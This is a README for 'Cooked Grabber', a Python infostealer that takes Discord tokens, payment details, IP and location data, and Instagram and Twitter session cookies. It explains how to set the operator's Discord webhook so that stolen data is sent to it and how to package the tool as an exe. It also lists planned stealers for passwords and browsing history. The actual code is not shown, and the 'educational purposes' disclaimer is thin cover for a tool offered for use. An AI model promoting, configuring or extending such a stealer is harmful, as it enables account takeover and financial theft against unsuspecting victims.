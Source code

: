 ![Logo](https://imgur.com/lCyX6TX.png)

# Cooked Grabber

Discord , Twitter, Instagram cookies and token grabber.

## Features

- Easy to use
- Alls navigators compatibility
- Steal discord token
- Steal discord payment informations
- Steal IP adress and location
- Steal Instagram connection cookies
- Steal Twitter connection cookies
- Can be converted to exe
## Requirements

- **Windows 10** OS only (*win32, for x86, x86_64, and arm64 architectures*)
- **Python 3.x** (*unless it exe converted, python 3.9 used for the project.*)
- **Modules:** `$ pip install -r requirements.txt` (unless it exe converted)

## Screenshots

![App Screenshot](https://imgur.com/btX4Sro.png)

![App Screenshot](https://imgur.com/Fax7uTB.png)

## How to use ?

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
```py
main(['YOUR DISCORD WEBHOOK URL]) #line 252
```
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Coming soon features 
- More optimisations , kill lags
- Saved password stealer
- Bookmarks stealer
- History stealer
- More error bypass
## Disclaimer
- Only for educationnal puposes.
- We decline any responsability in case of misuse of this code.

## Author

- [@mouadessalim](https://github.com/mouadessalim)
- [@crashixx](https://github.com/crashixx)
